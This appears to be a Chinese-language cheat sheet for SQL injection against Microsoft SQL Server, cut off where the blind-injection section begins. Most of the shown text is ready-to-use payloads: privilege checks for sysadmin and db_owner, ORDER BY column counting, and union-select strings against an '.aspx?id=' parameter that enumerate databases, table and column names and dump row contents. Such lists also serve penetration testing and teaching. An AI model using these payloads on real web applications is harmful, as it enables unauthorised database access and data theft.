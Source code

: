 # sqlserver-
sqlserver 注入(联合 盲注)
# Sqlserver数据库注入
SQL Server数据库是由Microsoft开发和推广的关系数据库管理系统(DBMS)，是一个比较大型的数据库。端口号为 1433。数据库后缀名 .mdf，注释符是 --

    sa权限：数据库操作，文件管理，命令执行，注册表读取等system
    db权限：文件管理，数据库操作等 users-administrators
    public权限：数据库操作 guest-users
# 判断当前数据库用户权限
and 1=(IS_SRVROLEMEMBER(‘sysadmin’))        //返回正常为sa
and 1=(IS_MEMBER(‘db_owner’))               //返回正常为DB_OWNER
and 1=(IS_srvrolemember(‘public’))          //public权限,较低
# Sqlserver联合注入
## ------判断列数：
Order by 3   返回正常
Order by 4   返回错误
列数为3
## ------查看数据库：
...aspx?id=10 union select null,db_name(),null   （当前数据库）
...aspx?id=10 union select null,db_name(1),null
...aspx?id=10 union select null,db_name(2),null
...aspx?id=10 union select null,db_name(N),null  .......

## ------爆表名
...aspx?id=10 union select null,(select top 1 name from 数据库名..sysobjects where xtype='U' and id not in (select top N id from 数据库名..sysobjects where xtype='U')),null      
(数据库名是你想爆破的数据库名，N = 0 1 2 3 ....)

## ------爆列名：
...aspx?id=10 union select null,(select name from 数据库名..syscolumns where id =(select id from 数据库名..sysobjects where name='表名') and colid=N),null

## ------爆内容
...aspx?id=10 union select null,(select top 1 列名 from 数据库..指定表),null

...aspx?id=10 union select null,(select top 1 列名 from 指定表 where 列名 not in (select top N 列名 from 指定表)),null

# Sqlserver盲注
## ------获取基本信息
1、判断是不是MSSQL
